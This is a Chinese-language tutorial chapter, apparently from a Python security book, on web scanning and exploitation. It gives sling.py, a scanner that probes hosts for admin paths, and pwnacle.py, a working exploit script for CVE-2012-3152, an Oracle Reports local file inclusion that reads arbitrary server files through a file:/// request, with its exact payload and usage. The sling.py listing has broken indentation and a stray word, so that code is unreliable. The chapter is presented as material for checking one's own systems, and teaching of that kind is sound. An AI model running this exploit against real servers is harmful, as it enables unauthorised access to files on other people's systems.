 # Web 扫描和利用

## Web 扫描和利用

本章将会介绍如何使用 python 去构建一个简单的 web 扫描器，并且写一个简单的 exp。有些时候如果组织会发布出来一些漏洞测试的 POC，然后使用者可以使用这些 poc 去检查自己系统的漏洞，但是在这种情况下，如果是等 poc 发布出来早以为时已晚!

在[第五章](https://github.com/smartFlash/pySecurity/blob/master/zh-cn/0x5.md)的时候告诉了大家基本的 web 请求,这一章我们讲两个新的内容:

*   检测特定的服务器列表.
*   利用一个 Oracle 的本地包含漏洞.

**Web 扫描**

下面的这个脚本使用"-i"参数把文件的 url 连接传递到脚本里面，然后使用"-r"参数指定请求的路径,最好使用"-s"参数去指定检测是否含有 CLI 漏洞的字符串.

```
$ python sling.py -h
Usage: sling.py -i <file_with URLs> -r  -s [optional]

Options:
  -h, --help    show this help message and exit
  -i SERVERS    specify target file with URLs
  -r RESOURCES  specify a file with resources to request
  -s SEARCH     [optional] Specify a search string -s 
```

存储 url 链接列表文件的文本格式应该是这样的——"[`www.google.com`](http://www.google.com)" 一行，并且文件请求的路径应该是"request/"每行,例如:

```
reqs:
CFIDE/
admin/
tmp/ 
```

下面是一个脚本调用的例子但是没有指定检测字符串:

```
$ python sling.py -i URLs -r reqs
[+] URL: http://www.google.com/CFIDE/ [404]
[+] URL: http://www.google.com/admin/ [404]
[+] URL: http://www.google.com/tmp/ [404]
[+] URL: http://www.yahoo.com/CFIDE/ [404]
[+] URL: http://www.facebook.com/CFIDE/ [404]
[+] URL: http://www.facebook.com/admin/ [404]
[+] URL: http://www.facebook.com/tmp/ [404] 
```

现在当创建这些请求的时候，你可能想定义一个检测语句以减少误报，例如：你现在请求的路径是"/CFIDE/administrator/enter.cfm",你可以指定检测"CFIDE"的".cfm"页面是否有问题,这样就帮助你减少很多不必要耗费的时间.下面这个例子演示了上面脚本的完整示例:

```
$ python sling.py -i URLs -r reqs -s google
[+] URL: http://www.google.com/CFIDE/ [404] Found: 'google' in ouput
[+] URL: http://www.google.com/admin/ [404] Found: 'google' in ouput
[+] URL: http://www.google.com/tmp/ [404] Found: 'google' in ouput 
```

正如你所看到的，这个脚本只会检测带有'google'关键字的 url 链接并且通过"STDOUT"显示在屏幕上面,这是一个很简单的脚本能够帮你快速的检索一些 web 资源,更进一步,我们可以指定服务器的版本号和漏洞版本,完整的脚本在教程的最后面:

**自动 web 攻击应用**

在几个月以前,一个安全研究员[NI@root](http://blog.netinfiltration.com/2013/12/12/hacking-oracle-reports-11g/)　发表过一篇详细的 Oracle 本地包含漏洞的报告,在报告发布的同时还发布了一个 POC 检测工具,用来检测你的服务器是否有 bug,除此以外就没有任何工具了,该漏洞允许你通过发起以下请求连接来访问服务器的其他文件或目录,使用"file:///".

```
request = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///' 
```

下面是调用这个脚本的语法:

```
$ python pwnacle.py <server> <resource> 
```

pwnacle.py:

```
#######################################
# pwnacle.py - Exploits CVE-2012-3152 #
# Oracle Local File Inclusion (LFI)   #
#######################################

import urllib, sys, ssl, inspect
exec inspect.getsource(ssl.wrap_socket).replace("PROTOCOL_SSLv23","PROTOCOL_SSLv3") in dict(inspect.getmembers(ssl.wrap_socket))["func_globals"]
import socket

server = sys.argv[1]      # Assigns first argument given at the CLI to 'server' variable
dir = sys.argv[2]         # Assigns second argument given at the CLI to 'dir' variable
ip = server.split('/')[2] # formats the server by splitting the string based on the '/' which grabs the IP out of 'http://ip/'
req = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///' #request format to exploit the vulnerability

print "Sending Request: "+server+req+dir+'"'

if 'http://' in server: # 使用 http 的 urllib 模块  --如果是 ssl 协议就出抛出错误
        try:
                conn = urllib.urlopen(server+req+dir+'"') # 发送请求给服务器
                out = conn.readlines()
                for item in conn:
                        print item.strip()
        except Exception as e:
                print e

if 'https://' in server:  # Create web request with ssl module
        try:
                conn = ssl.wrap_socket(socket.create_connection((ip, 443)))
                request = 'GET '+req+dir+'"'+' HTTP/1.1'+'\n'
                request += 'Host: '+ip+'\n'
                request += 'User-Agent: Mozilla/5.0 '+'\n'
                request += 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'+'\n'
                request += 'Accept-Language: en-US,en;q=0.5'+'\n'
                request += 'Accept-Encoding: gzip, deflate'+'\n'
                request += 'Connection: keep-alive'+'\n'
                conn.send(request+'\n')
                print conn.recv()
                print conn.recv(20098)

        except Exception as e:
                print e 
```

Sling.py:

```
#####################################
# sling.py - checks for resources   #
# Can seach for string in response  #
#####################################

from bs4 import BeautifulSoup
import sys, optparse, socket
from urllib import urlopen

class Colors:
        RED = '\033[91m'
        GREEN = '\033[92m'

def webreq(server, resources):                              # 主机地址,请求路径
        try:
                resource = []
                for item in open(resources, 'r'):           #对请求资源路径循环
                        resource.append(item.strip())            # 把文件内的链接添加到数组里面
                for item in resource:                       #循环数组并且创建请求
                        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.settimeout(5)                     # 设置连接超时时间
                        url = server.strip()+item.strip()        # 格式化请求 url 链接: "http://www.site.com/CFIDE/administrator/enter.cfm"
                        request = urlopen(url)                   # 创建请求
                        if search:                     # 如果变量 "search"为 true (-s)
                                parsed = BeautifulSoup(request.read(), "lxml")  #使用 BeautifulSoup 解析
                                if search in str(parsed):             # 如果 search 存在就输出
                                        print Colors.GREEN+"[+] URL: "+url+" ["+str(request.getcode())+"] Found: '"+search+"' in ouput"
                        elif request.getcode() == 404:                # 获取 http 状态码
                                print Colors.RED+"[+] URL: "+url+" ["+str(request.getcode())+"]"    # 打印 url 的状态码
               elif request.getcode():
                    print Colors.GREEN+"[+] URL: "+url+" ["+str(request.getcode())+"]"

        except:pass

def main():
# 创建一个 CLI 功能函数并且存储到变量里面
parser = optparse.OptionParser(sys.argv[0]+' '+ \
        '-i <file_with URLs> -r  -s [optional]')
        parser.add_option('-i', dest='servers', type='string', help='specify target file with URLs')
        parser.add_option('-r', dest='resources', type='string', help='specify a file with resources to request')
        parser.add_option('-s', dest='search', type='string', help='[optional] Specify a search string -s ')
        (options, args) = parser.parse_args()
        servers=options.servers
        resources=options.resources
        global search; search=options.search

        if (servers == None) and (resources==None):              # 检查 CLI 是否有效
                print parser.usage                     # if not print usage
                sys.exit(0)

        if servers:
                for server in open(servers, 'r'):           # 循环文件里面的 url 连接
                        webreq(server, resources)           # 调用 webreq 函数
                        function

if __name__ == "__main__":
      main() 
```